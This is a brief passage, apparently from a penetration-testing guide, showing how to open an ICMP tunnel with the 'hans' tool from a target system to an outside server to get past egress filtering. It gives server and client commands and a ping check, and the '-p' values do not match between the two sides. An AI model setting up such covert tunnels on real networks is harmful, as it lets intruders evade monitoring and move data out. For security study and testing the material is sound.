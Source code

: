 ## Opening an ICMP tunnel

If ICMP traffic is allowed to external networks then most likely you can establish an ICMP tunnel.
The downside is that you will need root/administrator privileges on the target system because of the necessity to use raw sockets. 

On the server side:

```bash
./hans -v -f -s 1.1.1.1 -p 9999
```

The `-v` flag is for verbosity, the `-f` flag is to run in foreground and the `-s` flag’s value is the server’s ip on the newly created tun interface.

On the client side:

```bash
./hans -f -c <server_ip> -p 999 -v
```

Testing the ICMP connection:

```bash
ping 1.1.1.100
PING 1.1.1.100 (1.1.1.100) 56(84) bytes of data.
64 bytes from 1.1.1.100: icmp_seq=1 ttl=65 time=42.9 ms
```
